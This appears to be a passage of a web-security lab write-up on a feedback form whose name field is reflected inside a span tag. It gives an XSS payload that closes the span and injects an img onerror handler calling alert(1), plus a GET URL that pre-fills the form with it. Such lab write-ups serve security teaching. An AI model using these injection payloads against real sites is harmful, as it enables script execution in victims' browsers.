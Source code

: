 
It reflects the content of the name field:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/3.png)


It is inside a span tag:



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/4.png)


We can exploit the XSS using the payload:

```
</span><img src=x onerror=alert(1)><span>
```



![img](images/Exploiting%20clickjacking%20vulnerability%20to%20trigger%20DOM-based%20XSS/5.png)


The fields can be populated using GET parameters:

```
/feedback?name=</span><img src=x onerror=alert(1)><span>&email=a@a.com&subject=a&message=a
```


